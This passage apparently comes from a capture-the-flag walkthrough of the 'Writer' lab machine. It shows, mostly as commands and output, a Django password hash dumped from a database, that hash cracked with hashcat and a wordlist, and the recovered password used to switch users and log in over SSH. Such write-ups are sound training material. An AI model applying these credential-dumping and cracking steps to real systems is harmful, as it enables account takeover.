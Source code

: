 
`auth_user` is where the hashes are stored:

    
    
    MariaDB [dev]> select * from auth_user;
    +----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
    | id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
    +----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
    |  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
    +----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
    

### Cracking

I’ll feed that hash into `hashcat`, and after a few minutes with
`rockyou.txt`, it finds the password:

    
    
    $ hashcat -m 10000 django.hash --force /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
    ...[snip]...
    

### su / SSH

That password works for kyle, either with `su`:

    
    
    www-data@writer:/var/www/writer2_project$ su kyle
    Password: 
    kyle@writer:/var/www/writer2_project$
    

Or over SSH:

    
    
    oxdf@parrot$ sshpass -p 'marcoantonio' ssh kyle@10.10.11.101
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
    ...[snip]...
    kyle@writer:~$ 
    

And now I have access to `user.txt`:

    
    
    kyle@writer:~$ cat user.txt
    9f0e5237************************
    